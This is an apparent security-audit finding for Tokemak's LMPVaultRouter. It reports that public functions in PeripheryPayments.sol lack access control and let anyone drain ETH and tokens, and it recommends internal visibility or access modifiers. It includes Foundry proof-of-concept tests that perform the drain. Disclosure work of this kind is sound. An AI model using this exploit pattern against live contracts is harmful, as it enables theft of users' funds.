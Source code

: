 Striped Crepe Hippo

high

# Lack of access control can drain LMPVaultRouter completely.
## Summary
`refundETH`, `sweepToken`, `unwrapWETH9`, `approve` functions of PeripheryPayments.sol have public visibility with no access control. These functions can be used by anyone to empty the contract of any and every token.

## Vulnerability Detail
No access control on sensitive functionalities which have public visibility.

## Impact
All tokens can drained from the router contract.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58-L69
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L35-L48

## PoC
```solidity
function testrefundETH() public{
        vm.deal(address(lmpVaultRouter),1e18);
        uint balan = address(lmpVaultRouter).balance;
        uint prevBalance=address(this).balance;
        lmpVaultRouter.refundETH();
        uint nowBalance=address(this).balance;
        assertEq(nowBalance-prevBalance,balan);
    }

    function testsweepToken() public{
        deal(WETH_MAINNET,address(lmpVaultRouter),10e18);
        uint balan = IERC20(WETH_MAINNET).balanceOf(address(lmpVaultRouter));
        uint prevBalance = IERC20(WETH_MAINNET).balanceOf(address(this));
        lmpVaultRouter.sweepToken(IERC20(WETH_MAINNET),0,address(this));
        uint nowBalance = IERC20(WETH_MAINNET).balanceOf(address(this));
        assertEq(nowBalance-prevBalance,balan);
    }

    function testunwrapWETH9() public{
        deal(WETH_MAINNET,address(lmpVaultRouter),10e18);
        uint balan = IERC20(WETH_MAINNET).balanceOf(address(lmpVaultRouter));
        uint prevBalance = address(this).balance;
        lmpVaultRouter.unwrapWETH9(0,address(this));
        uint nowBalance = address(this).balance;
        assertEq(nowBalance-prevBalance,balan);
    }

    function testapprove() public{
        deal(TOKE_MAINNET, address(lmpVaultRouter),10e18);
        uint balan = IERC20(TOKE_MAINNET).balanceOf(address(lmpVaultRouter));
        uint prevBalance = IERC20(TOKE_MAINNET).balanceOf(address(this));
        lmpVaultRouter.approve(IERC20(TOKE_MAINNET),address(this),type(uint).max);
        IERC20(TOKE_MAINNET).transferFrom(address(lmpVaultRouter),address(this),balan);
        uint nowBalance = IERC20(TOKE_MAINNET).balanceOf(address(this));
        assertEq(nowBalance-prevBalance,balan);

    }

    receive() external payable{}
```
Add these functions in  LMPVaultRouter.t.sol to test.

## Tool used

Manual Review

## Recommendation
Either change visibility to internal or apply some access control modifiers.